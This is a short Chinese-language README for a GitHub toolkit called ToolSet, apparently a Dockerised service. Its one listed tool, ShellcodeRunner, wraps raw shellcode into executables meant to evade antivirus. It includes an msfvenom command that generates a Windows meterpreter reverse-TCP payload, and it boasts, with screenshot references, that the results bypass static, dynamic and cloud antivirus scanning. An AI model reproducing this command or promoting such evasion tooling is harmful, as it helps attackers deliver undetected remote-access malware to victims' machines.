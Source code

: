 # ToolSet

一个小小的工具集

## 安装

```shell
git clone $repo_url

sudo docker-compose build && sudo docker-compose up -d
```

访问 `http://127.0.0.1:8080/swagger/index.html` 即可查看接口文档


## 工具列表

### ShellcodeRunner

#### 介绍

一个shellcode包装器，可根据提供的shellcode raw[`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=127.0.0.1 lport=4444 -f raw > ~/shell.raw`]文件
生成免杀的执行器

#### 国际惯例

![ShellcodeRunner静态bypass.webp](pics/ShellcodeRunner-static-bypassAV.webp)
![ShellcodeRunner动态bypass.webp](pics/ShellcodeRunner-dynamic-bypassAV.webp)

一天过去了，还能冲，应该bypass了云查杀

![一天后冲图.webp](pics/ShellcodeRunner-static-rescan-after-one-day.webp)
